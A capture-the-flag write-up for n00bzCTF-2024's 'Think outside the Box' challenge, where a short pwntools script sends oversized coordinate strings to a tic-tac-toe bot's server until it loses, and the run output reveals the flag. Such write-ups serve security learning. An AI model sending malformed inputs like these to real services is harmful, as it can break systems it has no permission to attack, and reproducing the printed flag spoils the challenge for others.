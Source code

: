 # n00bzCTF-2024
![](attachment/b525cca891743bde0dd6216253c5fda9.png)

## Challenge's Description 

You cannot beat my Tic-Tac-Toe bot! If you do, you get a flag! Author: `NoobMaster`
### Attachments

- [thinkoutsidethebox.zip](https://static.n00bzunit3d.xyz/Pwn/Think-outside-the-Box/thinkoutsidethebox.zip)

## Solution

This challenge in my opinion is more like misc-pwn than a casual pwn chall but it was fun!

If we reverse it and try to beat it with just normal moves we will see isn't possible and the best outcome that we could do it's just a draw. So, we must think a way to confuse the binary to lose.
After I while I manage to beat it with this tactic. 
I listed many more coordinates than expected and the bot got confused and started to lose rounds. So, we can play in whatever move we want to do a ticktacktoe and win!

**exploit.py**

```python
#!/usr/bin/env python3
from pwn import *

#p = process('./tictactoe')
p = remote('challs.n00bzunit3d.xyz', 10308)

p.recv(1000)

p.sendline(b'0,111111111111111111111111')
p.sendline(b'1,111111111111111111111111')
p.sendline(b'2,111111111111111111111111')
p.sendline(b'2,2')

success(p.recvall()) 
```

```sh
┌──(vein㉿vein)-[~/sec/n00bzCTF2024/pwn-Think_Outside_The_Box]
└─$ ./exploit.py    
[+] Opening connection to challs.n00bzunit3d.xyz on port 10308: Done
[+] Receiving all data: Done (534B)
  self._log(logging.INFO, message, args, kwargs, 'success')
[+]  _ | _ | _ 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Bot turn!
     _ | _ | _ 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Move:  _ | _ | O 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Bot turn!
     _ | _ | O 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Move:  _ | _ | O 
    ---|---|---
     _ | X | O 
    ---|---|---
     _ | _ | _ 
    Bot turn!
     _ | _ | O 
    ---|---|---
     _ | X | O 
    ---|---|---
     _ | _ | _ 
    Move:  _ | _ | O 
    ---|---|---
     _ | X | O 
    ---|---|---
     _ | _ | O 
    You won! Flag: n00bz{l173r4lly_0u7s1d3_7h3_b0x_L0L_d398529a6316}
```
